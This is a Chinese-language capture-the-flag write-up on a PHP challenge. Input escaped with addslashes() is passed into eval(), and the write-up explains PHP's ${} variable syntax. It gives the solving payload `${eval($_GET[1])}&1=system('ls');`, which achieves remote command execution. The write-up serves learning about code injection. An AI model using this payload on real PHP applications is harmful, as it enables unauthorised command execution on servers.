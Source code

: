 ## 分析

刚开始尝试的是使用宽字节注入来绕过`addslashes()` 函数，由于这里没有设计数据库，而且网页编码也是 UTF-8 的，所以这里是走不通

这里主要涉及到的知识点是PHP的花括号变量语法 `${}`

这个和bash中的有点类似，用`{}`来界定变量。`${expression}` 和 `{${expression}}` 表达的意思是一样的。

```php
$abc  = 1;
echo "$abcd";	// $abcd未定义

echo "${abc}d";	// 结果是 1d
```

同时 `${var}` 也可使函数的执行结果作为变量，也就是能够在 `var` 中执行 `php` 函数

比如：

```php
var_dump(${phpinfo()} = 1);	// int(1)	会首先执行phpinfo函数，然后再把1赋值给函数的执行结果。
var_dump($a=123);		// int(1)
var_dump(${phpinfo()} === $TRUE);	// bool(true)	这里说明了phpinfo()函数执行成功后返回的是一个TRUE
```

例子：

```php
$test = "hello world";
function a(){
    $str = 'test';
return $str;
}
echo  "${a()}";
// result: hello world
```

从上面代码看出，先执行了 `a()` 函数，返回值为` test`，然后再 `${test}` 获取`$test` 变量的值，最终结果返回 `hello world`

所以对于这道题：

```php
$this->format = addslashes($format);
eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
```

解题方案：`${eval($_GET[1])}&1=system('ls');`

因为 `addslashes` 只对空字符，`\`，`'` 和` " `进行转义，所以这里我们就用上了 `${}` 这个技巧。

首先执行`${expression}` 里面的表达式 `$_GET[1]`, 然后再执行 `eval()`，最终就是执行了 `system('ls')`


# 参考链接
[https://www.chabug.org/ctf/425.html](https://www.chabug.org/ctf/425.html)